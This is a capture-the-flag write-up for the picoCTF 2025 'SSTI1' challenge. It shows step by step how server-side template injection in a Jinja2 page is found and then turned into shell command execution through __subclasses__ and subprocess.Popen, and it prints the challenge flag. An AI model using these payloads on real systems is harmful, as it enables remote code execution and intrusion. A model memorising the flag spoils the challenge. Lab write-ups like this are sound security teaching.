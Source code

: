 # :briefcase: SSTI1

- **Difficulty**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2025`
- **Tag**: `browser_webshell_solvable`
- **Author**: `Venax`
- **Date**: `18/05/2025`

---

# :pencil: Description

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](https://play.picoctf.org/practice/challenge/492)!

---

# :unlock: Solution

1. Access the link

    ![image1](images/image1.png)

2. Try enter some announce `>` We have this

    ![image2](images/image2.png)

3. Back to previous page `>` We will try enter the following characters in turn `${{<%[%'"}}%` until we get an error `>` We have this after enter `${{`

    ![image3](images/image3.png)

4. Now we will continue entering `${{7\*7}}` and `${{7\*'7'}}` `>` We have this

    ![image4](images/image4.png)
    ![image5](images/image5.png)

    This proves that we can use `Jinja2` to do it.

5. Enter the following segments one by one to find what we need.

    `{{''.__class__}}`

    ![image6](images/image6.png)

    `{{''.__class__.__mro__}}`

    ![image7](images/image7.png)

    `{{''.__class__.__mro__[1]}}`
    
    ![image8](images/image8.png)

    `{{''.__class__.__mro__[1].__subclasses__()}}`

    ![image9](images/image9.png)

    Now we need to find the location of the class `subprocess.Popen` `>` Save all classes into a file `>` Use the following commands.

   `tr \, \\n < classes.txt > classes2.txt`

    `awk '{print NR $s}' classes2.txt | grep 'subprocess.Popen'`
    
    ![image10](images/image10.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]}}`

    *Note: We input 356 because __subclasses__() returns an array, and the awk command counts from 1*

    ![image11](images/image11.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]("ls", shell=True, stdout=-1).communicate()}}`

    ![image12](images/image12.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]("cat flag", shell=True, stdout=-1).communicate()}}`

    ![image13](images/image13.png)

---

# :white_flag: Flag

> picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}

---

# :writing_hand: Notes

- `__subclasses__()` is a built-in method of `object` that lists all its direct and indirect subclasses.
- `__mro__` is a tuple that shows the method resolution order of a class.
- `subprocess` in Python allows executing system commands.

---

# :books: Resources

- [TryHackMe | SSTI](https://tryhackme.com/room/learnssti)
- [subprocess — Subprocess management &#8212; Python 3.13.3 documentation](https://docs.python.org/3/library/subprocess.html)

# :hammer_and_wrench: Tools used

- `tr` - translate or delete characters
- `awk` - pattern scanning and processing language

